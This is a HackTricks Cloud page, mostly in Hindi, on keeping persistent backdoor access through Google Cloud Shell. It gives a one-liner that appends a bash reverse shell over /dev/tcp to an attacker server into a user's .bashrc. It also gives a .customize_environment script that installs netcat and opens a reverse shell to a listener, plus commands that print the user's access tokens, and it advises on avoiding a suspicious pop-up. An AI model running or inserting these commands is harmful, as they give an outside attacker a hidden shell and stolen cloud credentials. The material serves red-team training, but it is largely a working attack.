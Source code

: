 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) आपको आपके क्लाउड संसाधनों तक सीधे आपके ब्राउज़र से कमांड-लाइन पहुंच प्रदान करता है, बिना किसी संबंधित लागत के।

आप **वेब कंसोल** से या **`gcloud cloud-shell ssh`** चलाकर Google का Cloud Shell एक्सेस कर सकते हैं।

इस कंसोल में हमलावरों के लिए कुछ दिलचस्प क्षमताएँ हैं:

1. **कोई भी Google उपयोगकर्ता जिसे Google Cloud तक पहुंच है** एक पूरी तरह से प्रमाणित Cloud Shell उदाहरण तक पहुंच रखता है (सेवा खाते, यहां तक कि संगठन के मालिक होने पर भी, ऐसा कर सकते हैं)।
2. कहा गया उदाहरण **कम से कम 120 दिनों तक** अपने होम डायरेक्टरी को बनाए रखेगा यदि कोई गतिविधि नहीं होती है।
3. उस उदाहरण की गतिविधि की निगरानी के लिए **किसी संगठन के पास कोई क्षमता नहीं है**।

इसका मतलब यह है कि एक हमलावर उपयोगकर्ता के होम डायरेक्टरी में एक बैकडोर रख सकता है और जब तक उपयोगकर्ता हर 120 दिनों में GC Shell से कनेक्ट होता है, बैकडोर जीवित रहेगा और हमलावर को हर बार इसे चलाने पर एक शेल मिलेगा, बस ऐसा करके:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

होम फ़ोल्डर में एक और फ़ाइल है जिसे **`.customize_environment`** कहा जाता है, जो, यदि मौजूद है, तो **हर बार** उपयोगकर्ता **क्लाउड शेल** का उपयोग करते समय **निष्पादित** होगी (जैसे पिछले तकनीक में)। उपयोगकर्ता द्वारा "नियमित रूप से" क्लाउड शेल का उपयोग करने तक स्थिरता बनाए रखने के लिए पिछले बैकडोर या निम्नलिखित में से एक को डालें:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
यह ध्यान रखना महत्वपूर्ण है कि **जब पहली बार कोई क्रिया की जाती है जिसमें प्रमाणीकरण की आवश्यकता होती है**, तो उपयोगकर्ता के ब्राउज़र में एक पॉप-अप प्राधिकरण विंडो प्रकट होती है। इस विंडो को स्वीकार करना आवश्यक है इससे पहले कि कमांड चल सके। यदि कोई अप्रत्याशित पॉप-अप प्रकट होता है, तो यह संदेह पैदा कर सकता है और संभावित रूप से उपयोग किए जा रहे स्थायीता विधि को खतरे में डाल सकता है।
{% endhint %}

यह पॉप-अप है जो `gcloud projects list` को क्लाउड शेल (हमलावर के रूप में) से निष्पादित करने पर उपयोगकर्ता सत्र में देखा गया:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

हालांकि, यदि उपयोगकर्ता ने सक्रिय रूप से क्लाउडशेल का उपयोग किया है, तो पॉप-अप नहीं दिखाई देगा और आप **उपयोगकर्ता के टोकन एकत्र कर सकते हैं**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH कनेक्शन कैसे स्थापित किया जाता है

बुनियादी रूप से, इन 3 API कॉल का उपयोग किया जाता है:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (यह आपको आपके द्वारा स्थानीय रूप से बनाए गए सार्वजनिक कुंजी को जोड़ने के लिए कहेगा)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (यह आपको इंस्टेंस शुरू करने के लिए कहेगा)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (यह आपको गूगल क्लाउड शेल का आईपी बताएगा)

लेकिन आप [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) में और जानकारी प्राप्त कर सकते हैं।

## संदर्भ

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
